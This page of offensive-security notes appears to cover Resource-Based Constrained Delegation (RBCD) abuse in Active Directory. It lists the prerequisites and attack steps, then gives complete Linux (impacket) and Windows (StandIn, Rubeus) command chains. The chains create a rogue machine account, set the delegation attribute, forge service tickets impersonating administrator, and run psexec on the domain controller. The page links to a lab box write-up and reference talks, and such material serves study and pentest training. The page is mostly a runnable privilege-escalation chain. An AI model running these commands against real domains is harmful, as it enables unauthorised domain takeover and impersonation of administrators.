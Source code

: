 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RBCD

## TL;DR

The attack targets a domain computer (SPN related to the target domain computer).

### Prerequisites

1. A domain account with `WRITE` access to the target computer for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create new computer accounts (`MachineAccountQuota`).
3. LDAP(S) (`389`/`636`) and SAMR (`445`) access to the DC.
4. Kerberos (`88`) access to the DC.

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

Impersonated ST[^1]s may allow high-level access to services on the target like CIFS, HTTP, etc, if the impersonated account has privileges.

## Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../../boxes/boxes/easy/support.md#rbcd).

## Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://youtu.be/xMTCZt5DRB0?t=504" %}
{% endtab %}

{% tab title="Deep Dive" %}
{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}
{% endtab %}

{% tab title="Video-Presentation" %}
{% embed url="https://www.youtube.com/watch?v=vlKwCTvp5_w" %}
{% endtab %}
{% endtabs %}



[^1]: Service Ticket
